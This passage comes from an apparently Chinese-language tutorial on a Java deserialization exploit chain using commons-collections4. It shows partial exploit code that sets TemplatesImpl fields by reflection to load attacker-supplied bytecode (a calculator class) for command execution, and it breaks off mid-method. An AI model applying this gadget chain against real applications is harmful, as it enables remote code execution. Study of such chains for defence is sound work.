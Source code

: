 ![img](img/1667990090467-2abffc92-e915-4f4e-b530-bd618f3c9540.png)

## 利用链结合

这里最终利用依旧是通过通过反射去修改值，动态加载字节码实现命令执行。可参考CC3的动态加载字节码命令执行。

这里先贴出后半部分执行命令的EXP

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections4.functors.ChainedTransformer;  
import org.apache.commons.collections4.functors.InstantiateTransformer;  
  
import javax.xml.transform.Templates;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
   
public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 		Class templatesClass = templates.getClass();  
	 	Field nameField = templatesClass.getDeclaredField("_name");  
 		nameField.setAccessible(true);  
 		nameField.set(templates,"Drunkbaby");  
  
 		Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 		bytecodesField.setAccessible(true);  
 		byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 		byte[][] codes = {evil};  
 		bytecodesField.set(templates,codes);  
  
 		Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 		tfactoryField.setAccessible(true);  
 		tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    	templates.newTransformer();  
  
```